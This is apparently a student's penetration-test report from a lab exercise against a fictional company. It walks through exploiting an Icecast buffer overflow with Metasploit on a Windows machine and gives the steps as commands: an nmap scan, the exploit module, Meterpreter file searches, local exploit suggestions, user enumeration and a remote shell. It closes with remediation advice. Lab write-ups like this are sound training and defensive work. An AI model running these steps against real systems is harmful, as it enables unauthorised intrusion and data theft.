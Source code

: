 ## Week 17: Metasploit

### Background

For this assignment I played the role of a penetration tester hired by the fictional company GoodCorp Inc. to perform security tests against the CEO's computer.

## GoodSecurity Penetration Test Report

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**
192.168.0.20

**Hostname:**
MSEDGEWIN10

**Vulnerability Exploited:**
Icecast Header Overwrite: exploit/windows/http/icecast_header

**Vulnerability Explanation:**
This is a buffer overflow attack which allows the attacker to execute code when too much data is entered into the header of icecast versions 2.0.1 and earlier.  Specifically, 32 HTTP headers must be sent to the remote host in order to overwrite saved instructions.  This vulnerability is exploited with the help of ExitThread to make icecast think the thread is still in use.

**Severity:*
This vulnerability is critical.  An attacker could access everything on the CEO’s machine including the system information.  Therefore, this vulnerability could have been exploited for reconnaissance purposes to gather information to perform a future attack.  Additionally, an attacker potentially could have found banking information for the CEO or the company, they could have accessed sensitive documents pertaining to the CEO which could have led to the theft of his identity, or the attacker may have uncovered proprietary information about their products which the company would not want in the hands of their competitors.  As the attacker had full access to the CEO’s machine, the possibilities are endless when it comes to the damage the attacker could cause.

**Proof of Concept:**
1. Ran nmap on the IP address to perform a service and version scan: nmap -sV 192.168.0.20

2. Found the Icecast service was running so I used SearchSploit to search for exploits: searchsploit icecast

3. Set up the exploit using Metasploit:
   - search icecast
   - use exploit/windows/http/icecast_header
   - set RHOSTS 192.168.0.20
   - exploit

4. Found files:
   - Found secretfile.txt : search -f *secret*
      ![secretfile](Images/Week_17/secretfile.png)
   - Found recipe.txt: search -f *recipe*
      ![recipe](Images/Week_17/recipe.png)

5. Used Meterpreter’s local exploit searcher to determine additional exploits: run post/multi/recon/local_exploit_suggester
  - Discovered the following exploits:
    - exploit/windows/local/ikeext_service
    - exploit/windows/local/ms16_075_relection
      ![local_exploit_suggester](Images/Week_17/local_exploit_suggester.png)

6. Enumerated all logged on users: run post/windows/gather/enum_logged_on_users
![enum_logged_on_users](Images/Week_17/enum_logged_on_users.png)

7. Opened a Meterpreter shell and determined system information:
   - shell
   - systeminfo
     ![systeminfo1](Images/Week_17/systeminfo1.png)
     ![systeminfo2](Images/Week_17/systeminfo2.png)

### 3.0 Recommendations

1. All software needs to be updated to the latest versions.
2. Password protect and/or encrypt files containing sensitive information.
3. Update firewall rules to only allow traffic on necessary ports.
4. Consider limiting the information company executives have access to as they are high profile targets.
